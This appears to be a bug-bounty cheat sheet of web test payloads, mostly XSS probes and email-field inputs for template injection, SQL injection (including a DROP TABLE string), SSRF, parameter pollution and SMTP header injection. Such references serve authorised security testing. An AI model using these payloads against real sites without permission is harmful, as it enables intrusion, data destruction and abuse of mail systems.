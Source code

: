 # XSS

1. Test all url parameters for reflection and start manipulation.
2. In the email section try to input the following email if there is a validation.

```
test+(<script>alert(0)</script>)@example.com

test@example(<script>alert(0)</script>).com

"<script>alert(0)</script>"@example.com
```

3. XSS on input type hidden
Can be used when payload is injected BEFORE type="hidden" attribute (XSS is triggered without interaction
```
http://web.com/?c=red" type=image src=1 onerror="alert(1)

<input name="color" value="red" type="image" src="1" onerror="alert(ERIC)" type="hidden">
```

Can be used when payload is injected AFTER type="hidden" attribute (Firefox Only) <kbd>ALT+SHIFT+X / CMD+ALT+X</kbd>
```
http://web.com/?c=red" accesskey=x onclick="alert(ERIC)

<input type="hidden" name="color" value="red" accesskey="x" onclick="alert(ERIC)">
```

# REDIRECT
1. Host Header Injection [https://www.youtube.com/watch?v=EPmcOtIJ7dA](https://www.youtube.com/watch?v=EPmcOtIJ7dA)



# EMAIL VALIDATION
1. Check the following email if email is fully validated. [https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view](https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view)

Template injection
```
"<%= 7 * 7 %>"@example.com

test+(${{7*7}})@example.com
```

SQLi
```
"' OR 1=1 -- '"@example.com

"mail'); DROP TABLE users;--"@example.com
```

SSRF
```
john.doe@abc123.burpcollaborator.net

john.doe@[127.0.0.1]
```

Parameter pollution
```
victim&email=attacker@example.com
```

Header injection
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com

"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

Wildcard abuse
```
%@example.com
```
